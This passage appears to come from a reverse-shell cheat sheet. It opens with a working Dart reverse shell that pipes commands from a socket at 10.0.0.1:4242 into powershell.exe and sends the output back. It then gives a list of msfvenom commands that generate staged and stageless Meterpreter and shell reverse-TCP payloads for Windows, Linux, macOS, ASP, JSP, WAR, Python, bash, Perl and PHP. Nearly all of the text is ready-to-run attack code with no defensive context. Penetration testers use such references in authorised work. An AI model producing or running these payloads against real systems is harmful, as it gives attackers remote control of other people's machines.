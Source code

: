### Dart

```java
import 'dart:io';
import 'dart:convert';

main() {
  Socket.connect("10.0.0.1", 4242).then((socket) {
    socket.listen((data) {
      Process.start('powershell.exe', []).then((Process process) {
        process.stdin.writeln(new String.fromCharCodes(data).trim());
        process.stdout
          .transform(utf8.decoder)
          .listen((output) { socket.write(output); });
      });
    },
    onDone: () {
      socket.destroy();
    });
  });
}
```

## Meterpreter Shell

### Windows Staged reverse TCP

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

### Windows Stageless reverse TCP

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

### Linux Staged reverse TCP

```powershell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Linux Stageless reverse TCP

```powershell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Other platforms

```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
